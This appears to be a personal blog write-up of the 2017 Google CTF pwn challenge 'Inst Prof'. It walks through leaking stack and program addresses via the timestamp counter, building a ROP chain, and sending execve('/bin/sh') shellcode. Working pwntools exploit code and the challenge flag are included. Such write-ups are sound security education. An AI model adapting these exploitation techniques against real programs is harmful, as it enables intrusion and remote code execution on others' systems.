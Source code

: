 ```yaml
---
layout: post
title: Google CTF - Inst Prof Writeup
description: "Writeup for the 2017 Google CTF pwn challenge Inst Prof."
modified: 2017-06-24
tags: [writeup, ctf, rop, asm, pwn]
comments: true
share: true
categories: [writeups]
---
```


<!-- This write up is published at: http://gmiru.com/writeups/gctf-inst/ -->

I started this challenge after finishing Wiki since my team still did not solve it at that time. I though I would grab this low hanging fruit fast and move on to the harder challenges, as it was categorised as an easy task and had many solvers. Boy, was I ever wrong! If you are looking for the efficient solution for this challenge, I suggest you keep looking, my solution is full of detours and I made this challenge significantly harder than it should have been.

### The Binary

The provided binary is an x64 linux executable with [NX](https://en.wikipedia.org/wiki/NX_bit) and [PIE](https://en.wikipedia.org/wiki/Position-independent_code) enabled. There is no need for much reversing as the program itself is really simple. In an infinite loop it reads four bytes from the user, executes those four bytes in a loop a thousand times and prints the execution time in the end. More precisely: 
* It allocates an `mmap` page and copies the thousand-iteration-loop template there
* Reads four bytes from the user and substitutes it into the loop 
* Makes the page executable
* Saves the `rdtsc` [clock](https://en.wikipedia.org/wiki/Time_Stamp_Counter)
* Calls the page
* Reads the `rdtsc` clock again and prints the elapsed time
* Frees the page

What is interesting for us is obviously the 4 byte machine code we can run and the printing of the `rdtsc` clock. Since that is the only information sent to us we will have to use it to leak addresses. This and an unhealthy dose of caffeine should be enough to finish the exploit.

### The Leak

The value of the Time Stamp Counter is saved to R12 before the call to our code. Later, when the loop has returned, it is subtracted from the current value of the Time Stamp Counter. It is easy to see how we can use this to leak addresses; we can subtract a value from R12 and we receive the subtracted value plus the time that passed between the two `rdtsc` calls.

```pseudo
r12 = rdtsc1
call our_code
    r12 = r12 - rsp
    return
res = rdtsc2 - r12
res = rdtsc2 - rdtsc1 + rsp
print res
```

If we want to leak accurate addresses then we need to guess or know the time spent between the two `rdtsc` instructions. On the other hand, if we only want to get the base address of a mapping we don't need accurate values as base addresses are page aligned, so the least significant 12 bits are always going to be zero. Leaking the stack base or executable page is straight forward as their addresses are already present in registers (RSP and RIP respectively).

Leaking the .text base requires an
additional step. We need to load a .text address into a register and subtract it from R12. Unfortunately I am not aware of any instruction combination that does this in 4 bytes and survives the return. The only alternative solution is to look for a register, that is not written between the calls to our 4 byte shellcode. Lucky for us R14 and R15 satisfies this condition, and the `pop r14; push r14` instructions can be used to load the original return address to the R14 register and `sub
r12, r14; ret` can be used to leak it. The actual code for the address leaks:

```python
    ret = asm("ret")
    add_r12_rsp = asm("sub r12, rsp")
    
    m.c.send(add_r12_rsp+ret)
    leak_stack = (u64(m.c.recv(), sign="signed")) -reftime
    stack_base = (leak_stack & 0xfffffffffffff000) - 0x20000
    print ("Leaked stack address: "+hex(leak_stack))
    print ("Leaked stack base: "+hex(stack_base))

    print ("Get ret address to r14")
    m.c.send(pop_r14 + push_r14)
    m.c.recv()

    m.c.send(add_r12_r14+ret)
    leak_prog = (u64(m.c.recv(), sign="signed")) -reftime
    prog_base = (leak_prog & 0xfffffffffffff000)
    print ("Leaked prog address: "+hex(leak_prog))
    print ("Leaked prog base: "+hex(prog_base))
```

### The Exploit

At this point any sane person would have realised that with R14 and R15 we have an arbitrary write primitive. We could write a minimal ROP chain that calls the `make_page_executable` and makes the stack executable and returns to a minimal shell code. But I didn't. I took the scenic route.

After leaking the addresses I decided to call the `read_n(char* dst, int length)` function, to overwrite the stack with arbitrary data. At the time of return RSI contains 0x1000 which is good enough for us, all we need to do is get the stack address into RDI and overwrite the return address with `read_n` function's address. As explained previously, `pop r14; push r14` can be used to get the original return address into R14. Since the `read_n` address is really close to this address, we can issue the `dec r14; ret` instructions multiple times (0x98 times to be exact) to point R14 to `read_n`.

The final step is to get the stack address into RDI and push R14 to the stack. This exactly is achieved by the `push rsi; pop rdi; push r14;` instructions, it will mess up the stack but we plan to read there anyways. The actual code:

```python
dec_r14 = asm("dec r14")
push_r14 = asm("push r14")
pop_rdi = asm("pop rdi")
push_rsp = asm("push rsp")

for i in range(0x98):
    m.c.send(dec_r14+ret)
    junk = m.c.recv()
print("Jumping to read")
m.c.send(push_rsp+pop_rdi+push_r14)
```

All that is left to do is to write a ROP chain that calls `execve` with the `"/bin/sh",0,0` arguments. Thought the naive, adolescent me. The problem is that we only know the base address of the program and not the address of libc. At the time (heavily sleep deprived), I could not see a way to leak libc addresses easily. It would have been pretty simple though, R15 could be pointed to the .got and then `mov r14, [r15]; ret` could have been used to read libc function addresses to R14.

Instead I run `ROPgadget` on
the binary and noted the lack of useful gadgets with much disappointment. There are `pop rdi` and `pop rsi` gadgets in the binary but no control over RDX or EAX which means no `execve` for us (or any syscall for that matter). At this point I was very tempted to give up and ease my sorrow with fine Belgian beers, but I resisted.

Having RSI and RDI control and PIE leak means that we can call any function from the binary and control the first two parameters, so it is worth looking through them. We can call:
* alloc\_page
* free\_page
* make\_page\_executable
* read\_n

The two most useful one are `make_page_executable(void* address)` and the `read_n` functions. With the help of these we can read an arbitrary shell code to the .bss and make it executable and return to it. The shell code can be the `execve("/bin/sh", 0, 0)`, we can place the "/bin/sh" string over the last return address on the stack when the ROP chain is sent. So the actual shell code ends up looking like this:

```asm
mov rdi, rsp
mov rsi, 0
mov rdx, 0
mov rax, 59
syscall
```

This is a simple idea but at the time it took me significant amount of time to figure it out and beforehand a lot of trial and error with other non-working solutions. But after the pieces have fallen into place writing the ROP chain is rather straight forward. We simply use the `pop rdi; ret` and `pop rsi, pop r15, ret` gadgets to set up the parameters for the `read_n` and `make_page_executable` functions. The relevant part of the exploit:

```python
## get addresses
bss_base = prog_base + 0x202000
bss_start = prog_base + 0x202070

pop_rdi = prog_base + 0xbc3
pop_rsi_r15 = prog_base + 0xbc1

read_n = prog_base+0xa80
make_page_exec = prog_base+0xa20

# RSI contains read length
ropchain = p64(pop_rsi_r15)+ p64(0x500) + "B"*8
# RDI contains bss address
ropchain += p64(pop_rdi) + p64(bss_start)+p64(read_n)
# RDI contains the bss base
ropchain += p64(pop_rdi) + p64(bss_base)+p64(page_exec)
# ret to the shell code address and "/bin/sh" string
ropchain += p64(bss_start) + "/bin/sh\0"

print("sending stage 1")
m.c.send(ropchain)

# send shell code
last_stage = asm("mov rdi, rsp; mov rsi, 0; mov rdx, 0;mov rax, 59;syscall")
m.c.send("C"*(0x1000-88) +last_stage + "D" *((0x500+88 )-len(last_stage)))
# enjoy remote shell
m.c.interactive()
```

The complete exploit is available [here](/resources/ctf/instprof_exploit.py).

### Summary

Before concluding this write up here is a quick recap of the steps I took to get the flag:
* Leak addresses using the R12 register
* Call `read_n` to overwrite the stack with arbitrary data
* Create a ROP chain that reads to the .bss and makes it executable and returns to it
* Send the `sys_execve("/bin/sh",0,0)` shellcode
* Submit flag, realise it is my anniversary, quit CTF to try to save relationship (true story)

Without doubt this is not the most efficient way to solve this challenge, yet I hope some people find the write up helpful, educational. Overall I definitely enjoyed this challenge even though I almost lost hope at one point and was really close to giving up. Last but not least, I would like to say thank you to the organisers for the quality challenges and competition.

Oh yeah and the flag of course:

```
CTF{0v3r_4ND_0v3r_4ND_0v3r_4ND_0v3r}
```


### TL;DR

Despair is the name of the game.
